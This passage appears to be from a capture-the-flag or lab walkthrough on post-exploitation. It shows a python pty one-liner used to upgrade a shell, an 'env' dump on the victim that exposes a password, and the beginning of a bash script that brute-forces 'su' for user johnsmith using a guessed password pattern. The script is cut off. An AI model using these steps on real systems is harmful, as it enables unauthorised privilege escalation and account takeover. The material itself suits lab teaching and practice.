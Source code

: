 Get autocomplete

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```



We found one password within environment variables

**Victim**

```
env
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) ( (8).png" alt=""><figcaption></figcaption></figure>



## Bruteforce su



At this point we have two passwords that are very similar, neither of them are the password for johnsmith to login, the format is PrettyS3cure${keyword}Password123.

```
PrettyS3cureKeystorePassword123.
PrettyS3cureSpringPassword123.
```

**su\_brute\_force.sh**

```
#!/bin/bash

set -m #enable job control
export TOP_PID=$$ #get the current PID
trap "trap - SIGTERM && kill -- -$$" INT SIGINT SIGTERM EXIT #exit on trap

# https://github.com/fearside/ProgressBar/blob/master/progressbar.sh
# something to look at while waiting
function progressbar {
        let _progress=(${1}*100/${2}*100)/100
        let _done=(${_progress}*4)/10
        let _left=40-$_done

        _done=$(printf "%${_done}s")
        _left=$(printf "%${_left}s")

        printf "\rCracking : [${_done// /#}${_left// /-}] ${_progress}%%"
}

function brute() {
        keyword=$1 #get the word
        password="PrettyS3cure${keyword}Password123." #add it to our format
        output=$( ( sleep 0.2s && echo $password ) | script -qc 'su johnsmith -c "id"' /dev/null) # check the password
```